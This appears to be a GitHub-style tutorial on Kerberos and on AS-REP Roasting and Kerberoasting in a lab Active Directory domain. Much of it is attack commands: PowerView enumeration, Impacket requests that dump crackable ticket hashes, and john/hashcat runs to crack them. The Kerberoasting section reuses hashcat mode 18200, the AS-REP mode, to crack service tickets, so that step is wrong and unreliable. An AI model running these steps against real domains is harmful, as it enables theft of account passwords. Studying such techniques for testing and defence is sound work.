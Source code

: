 ## KERBERUS

- Kerberos is an authentication protocol designed to allow two entities to establish a shared secret key securely over an insecure communication channel.

Key Distribution Center (KDC) - The KDC is the central authority that manages authentication and ticket issuance. It consists of two main services:

* Authentication Server (AS): Handles initial authentication and issues a Ticket Granting Ticket (TGT) to users upon successful verification.
* Ticket Granting Server (TGS): Issues Service Tickets (ST) to users who present a valid TGT, allowing access to specific resources.

The TGT is issued by the AS after successful authentication and allows users to request Service Tickets. The TGT is encrypted with the KDC’s secret key and contains:
* User ID
* TGS ID
* Expiration Time
* Ticket Flags (eg. pre_authent that specify that's the first ticket)

The Service Ticket (TGS Ticket) is granted by the TGS in exchange for a valid TGT. It allows users to access a specific service without entering credentials again. The ST is encrypted with the service’s secret key, ensuring secure access.


Kerberos attack - In an Active Directory (AD) environment, "roasting attacks" exploit weaknesses in the Kerberos authentication protocol, allowing attackers to capture tickets encrypted with passwords of users or service accounts.

* AS-REP Roasting – Targeting user accounts that do not require Kerberos preauthentication. (deep dive here)
* Kerberoasting – Exploiting service accounts with registered Service Principal Names (SPNs). (deep dive here)


## AS-REP Roasting

AS-REP Roasting exploits accounts for which Kerberos preauthentication is disabled. In a typical Kerberos authentication process, the client must send a timestamp encrypted with its password-derived key. 
This serves as proof that the authentication request is not being replayed. However, if preauthentication is disabled, the client does not need to send this encrypted timestamp. 
As a result, an attacker can request a Ticket Granting Ticket (TGT) for the target user and receive an AS-REP message encrypted with the user’s password hash

via PowerShell and check if the target accounts that have Kerberos pre-authentication disabled:

#PowerView
* Get-DomainUser -PreauthNotRequired -Verbose

Perform AS-REP Roasting using Impacket

* GetNPUsers.py dev-angelist.lab/asrep -dc-ip corp-dc -no-pass | grep '\$krb5asrep\$' > as-rep.txt

Crack the Ticket

* john --wordlist=/home/kali/Documents/password.txt ./as-rep.txt
* hashcat -m 18200 ./as-rep.txt /home/kali/Documents/password.txt
* john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worstpass.txt C:\AD\Tools\asrephashes.txt


## Kerberoasting

Kerberoasting targets service accounts with an assigned SPN. When a user requests access to a service, they receive a Service Ticket (ST) encrypted with the service account’s long-term password.

If an attacker can obtain the ST, they can attempt to crack the encryption offline to retrieve the service account password.

Verify the SPN
* Get-ADUser -Identity "kerberoasting" -Properties ServicePrincipalNames
* setspn -L kerberoasting

IMPACKET
* GetUserSPNs.py dev-angelist.lab/devan:'Password123!' -dc-ip corp-dc

Request Service Tickets for Kerberoasting

* GetUserSPNs.py dev-angelist.lab/devan:'Password123!' -dc-ip corp-dc -request #without specifing a user it checks all possible tickets
* GetUserSPNs.py dev-angelist.lab/devan:'Password123!' -dc-ip corp-dc -request-user kerberoasting | grep '\$krb5tgs\$' > kerberoast.txt

Crack the Service Ticket

* john --wordlist=/home/kali/Documents/password.txt ./kerberoast.txt
* hashcat -m 18200 ./kerberoast.txt /home/kali/Documents/password.txt
* #john.exe --wordlist=C:\AD\Tools\kerberoast\10kworst-pass.txt C:\AD\Tools\hashes.txt